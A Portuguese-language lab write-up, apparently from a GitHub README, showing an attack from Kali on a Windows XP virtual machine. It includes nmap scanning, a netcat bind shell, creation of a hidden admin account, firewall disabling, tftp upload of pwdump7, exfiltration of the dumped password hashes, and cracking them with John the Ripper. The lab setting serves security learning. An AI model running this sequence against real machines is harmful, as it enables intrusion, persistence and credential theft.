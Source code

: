 # Simulando um ataque com Kali no Linux

Com as máquinas devidamente criadas e configuradas.
Iniciou-se testes para verificar conectividade.

Após configurar rede NatNetwork para ambas as máquinas
Ping entre as máquinas se estabeleceu bem.

Porém houve alteração do IP do Windowns XP para IP fixo (10.0.2.21).


```
Ip –br a // permite ver as interfaces com os ip atribuídos
```
![image](https://user-images.githubusercontent.com/81317591/211308573-cb42aaa1-701e-46f9-af1c-0c7539a5869d.png)



Executando:
```
Sudo Netdiscover 
```
![image](https://user-images.githubusercontent.com/81317591/211308634-57d5f903-8782-49c4-896b-709759fd93b2.png)

De início não consta nada, porém ao realizar pings com o XP no Kali, ele identifica o IP do XP

 
![image](https://user-images.githubusercontent.com/81317591/211308681-a72e8611-8a15-40ee-ba5f-a727d84e7c67.png)

Como constou no netdiscover o IP do XP utilizou-se:
```
 Nmap -A 10.10.2.0/24
```
![image](https://user-images.githubusercontent.com/81317591/211308733-db2cd65d-1a46-4e05-bd33-da871cc05e29.png)

Ao executar ```nmap -A```  além das portas, também mostrou o sistema operacional, o horário do sistema, level de autenticação, e já identificou name computer e BIOS, assim como Workgroup.

Já a sintaxe ```nmap -sS nos```  forneceu apenas as informações das portas, inclusive a porta 1010/tcp que abrimos (nc -L -p 1010 -e cmd.exe) no XP para explorá-la.
 
![image](https://user-images.githubusercontent.com/81317591/211308951-3f83d9df-a0c7-4727-a76e-eba961b65bf7.png)

Executando ``` nc 10.0.2.21 1010``` , no Kali. Já temos acesso ao XP.

Com acesso, executaremos ``` C:\ qwinsta ``` - Foi verificado utilizador logado, no meu caso Admin1.
> Detalhe: os comandos que serão utilizados, são do XP, 
Rodamos ```C:\ net user Admin9 /add ``` para criar um usuário, Admin9, e logo depois deletado com, ```C:\ net user Admin9 /delete```, e depois criado um Admin11 como mostra imagem a seguir.
![image](https://user-images.githubusercontent.com/81317591/211309023-73aafe06-3a3f-47b4-958f-1bdf13e9156e.png)
 

Ainda utilizando o net user, foi criado um usuário “pirata” e depois adicionado senha ao seu perfil.
Com os comandos ```net user pirata /add``` e depois ```net user pirata 111```
![image](https://user-images.githubusercontent.com/81317591/211309067-14eb8c28-244a-4cf1-befe-fb7cd08449d4.png)

 
Caso necessário podemos remover a senha com o comando ```net user pirata *```
Ao utilizar ```C:\ net localgroup administradores pirata /add``` 

![image](https://user-images.githubusercontent.com/81317591/211309176-1729f2da-d8af-4d70-a658-03b3c84e8f2f.png)






```
C:\ shutdown –s –t 55 ➔ agenda um encerramento ao fim de 55 segundos 
C:\shutdown –a ➔ para o encerramento agendado 
C:\ipconfig /all ➔ ver as configurações IP 
C:\route print ➔ ver rotas/ tabela de roteamento 
```
 ![image](https://user-images.githubusercontent.com/81317591/211309214-fed0f9b9-f91c-4978-9d8a-f050f830cf37.png)

```
C:\arp –a ➔ permite ver a informação a cerca do gateway 
C:\netsh firewall show state ➔ ver o estado da firewall 
C:\netsh firewall show config ➔ verificar as configurações da firewall 
C:\systeminfo ➔ permite ver à quanto tempo a maquina não é desligada 
C:\netsh firewall set opmode disable ➔colocar a firewall como desativada 
C:\netsh firewall set opmode enable ➔ colocar a firewall como ativada
```
 
![image](https://user-images.githubusercontent.com/81317591/211309246-84a7a371-51e9-4b8f-9dc4-646ae4689307.png)


- Capturando a password dos users e fazendo crap das password do user.

> Através do aplicativo “pwdump”, download no kali, este vai ser usado para ser enviado para a máquina xp, para obtermos as senhas. 

Foi criado no kali uma pasta pwdump para descarregar o conteúdo, utilizamos ```unzip pwdump7.zip``` para extrair os arquivos dentro da pasta
vamos fazer uso do tftp para isso é necessário proceder à intalação dos serviços de tftp.

> tftp é um recurso para envio de arquivos entre as máquinas)

Executando ```sudo apt-get install tftpd-hpa tftp-server -y``` ou ```sudo apt-get install tftpd-hpa``` e 
```sudo apt-get install tftpd-server –y```

 ![image](https://user-images.githubusercontent.com/81317591/211309278-fd8f858e-74a0-458c-a237-07e0ca6a0ee6.png)


Fazer a configuração do serviço tftp com o comando: ```sudo nano /etc/default/tftpd-hpa–l```
A linha que tem a linha que tem TFTP_OPTIONS=" --secure” tem de ser alterada para
TFTP_OPTIONS="--secure --create"

![image](https://user-images.githubusercontent.com/81317591/211309331-0ed81ad5-bd5e-4e48-aef8-6f7ad35ed5c0.png)



Copiar os ficheiros do pwdump no KALI para:  /srv/tftp

```
sudo cp pwdump7.exe /srv/tftp
sudo cp libeay32.dll /srv/tftp
```

Na máquina XP criar uma pasta na raiz com nome ataque 
Agora através do KALI executar os comandos no XP dentro da pasta de ataque 
```
tftp -i 10.0.2.15 get libeay32.dll
tftp -i 10.0.2.15 get PwDump7.exe //case sensitive
```

Com isso, conseguimos transferir os dois arquivos do KALI para o XP e agora podemos executar o PwDump7 
 
![image](https://user-images.githubusercontent.com/81317591/211309364-1d70354f-3780-4a0e-9c04-f48f0b9f31eb.png)


Executando ```PwDump7.exe > contas.txt ```
O arquivo contas.txt fica com o conteúdo das passwords encriptadas. 
Agora transferimos o arquivo contas.txt para o KALI, com o comando: ```Tftp -i 10.0.2.15 put contas.txt```
Obtivemos um erro de permissão, permission denied, no KALI, para resolver, utilizamos: /srv , depois, ls -i e então, ```sudo chmod -R 777 tftp``` 
Ao tentar novamente, já obtivemos sucesso na transferência do arquivo. 

  ![image](https://user-images.githubusercontent.com/81317591/211309392-929e3475-80f9-474e-b9e9-0f4ca27e7d75.png)


Dentro da pasta /srv/tftp já podemos abrir o arquivo e ver o arquivo com password encriptado
Utilizamos ```sudo john contas.txt``` e já conseguimos ver os longin e passwords cadastrados no w XP.

 ![image](https://user-images.githubusercontent.com/81317591/211309419-bd4b8a65-67d9-4684-be88-4decd8b8a178.png)


E utilizando ```sudo john conta.txt --wordlist=/diretorioondeandaofile_rockyou.txt```
 
![image](https://user-images.githubusercontent.com/81317591/211309459-f73ecb3c-67ce-4b7e-9d3e-cfec7e5f0712.png)


